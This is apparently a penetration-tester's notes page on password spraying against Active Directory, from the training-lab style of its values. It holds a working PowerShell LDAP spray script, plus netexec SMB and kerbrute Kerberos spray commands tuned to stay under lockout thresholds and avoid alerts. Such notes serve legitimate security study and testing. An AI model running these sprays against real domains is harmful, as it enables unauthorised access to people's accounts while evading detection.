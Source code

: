 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Passwords

Before attempting any password attacks, check the domain's **account lockout policy** to avoid locking out accounts or triggering alerts.

```powershell
# List the account policy
> net accounts
...
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
...
```

Based on the above policy, we can safely try **4 login attempts per user every 30 minutes**. This allows up to **192 attempts/user/day**.

> _Tools like_ [_`netexec`_](../../../tools/active-directory/netexec-cme.md#password-policy) _can be used to enumerate the domain's account lockout policy._

## Password Spraying

### LDAP-Based

This method leverages LDAP binding via PowerShell’s `.NET` libraries. It attempts authentication by trying to create an LDAP object — if it succeeds, the credentials are valid. This method is **stealthy**, no interactive log in, and **respects lockout policy**, but is **slow** and **limited to one password per run**.

{% code overflow="wrap" %}
```powershell
# Get the domain and PDC
$domain = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domain.PdcRoleOwner.Name
# Construct the LDAP path
$ldap = "LDAP://$PDC/DC=" + $domain.Name.Replace('.', ',DC=')
# Attempt authentication
$entry = New-Object System.DirectoryServices.DirectoryEntry($ldap, "pete", "Nexus123!")
$entry.distinguishedName  # Triggers authentication
```
{% endcode %}

If the password is invalid, it throws an error. If valid, it returns the DN. We can automate this with the following script which loops through AD users and reports valid logins.

{% code title="LDAPSpray.ps1" overflow="wrap" %}
```powershell
param(
    [string]$Password = "Nexus123!",
    [string]$Domain = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).Name
)

Write-Host "[*] Starting LDAP password spray for domain: $Domain"
$PDC = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner).Name
$LDAP = "LDAP://$PDC/DC=" + $Domain.Replace('.', ',DC=')

# Get all users from AD
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(objectCategory=person)"
$Searcher.PageSize = 1000
$Searcher.PropertiesToLoad.Add("sAMAccountName") > $null
$Users = $Searcher.FindAll() | ForEach-Object { $_.Properties.samaccountname }

foreach ($User in $Users) {
    if ([string]::IsNullOrWhiteSpace($User)) { continue }

    try {
        $Entry = New-Object System.DirectoryServices.DirectoryEntry($LDAP, $User, $Password)
        $null = $Entry.distinguishedName  # Force bind/authentication
        Write-Host "[+] VALID: $User : $Password"
    } catch {
        Write-Host "[-] INVALID: $User"
    }
}

```
{% endcode %}

```powershell
> .\LDAPSpray.ps1 -Password "Nexus123!"
```

### SMB-Based

This method involves a full SMB session setup/teardown on each authentication attempt so it's **slow**, **noisy**, and **does not respect the lockout policy**. We can perform this attack using tools like [`netexec`](../../../tools/active-directory/netexec-cme.md#password-spray).

> _With `netxec`, if a sprayed password is valid_ _and the user is a `local administrator` on the target system, the `(Pwn3d!)` string will appear. This means that tools like `psexec`, `wmiexec`, or `secretsdump` can be used for lateral movement or privilege escalation._

{% code overflow="wrap" %}
```bash
$ nxc smb 192.168.177.0/24 -u pete -p 'Nexus123!' -d corp.com --continue-on-success
```
{% endcode %}

**Tips:**

* Use `--shares` or `--sessions` for post-auth enumeration.
* Use `--local-auth` if targeting local accounts.
* Log everything: `--output results.txt`.

### &#x20;Kerberos-Based

Uses Kerberos AS-REQs to test credentials. It's lightweight and fast — only 2 packets per attempt (UDP/88), making it ideal for stealth.

✅ _Extremely fast and quiet_\
❌ _Doesn’t respect lockout policies (but low risk)_

```bash
bashCopyEditkerbrute passwordspray -d corp.com usernames.txt "Nexus123!"
```

Valid logins return a TGT (AS-REP); invalid ones return a fast error. Use ANSI encoding in your input files to avoid weird issues.

***

#### 🔍 Summary Comparison

| Protocol | Noise | Lockout-Safe | Speed     | Notes                              |
| -------- | ----- | ------------ | --------- | ---------------------------------- |
| LDAP     | Low   | ✅ Yes        | Medium    | Scriptable, stealthy               |
| SMB      | High  | ❌ No         | Slow      | Reveals admin access (`Pwn3d!`)    |
| Kerberos | Low   | ❌ No         | Very Fast | UDP-based, great for fast spraying |
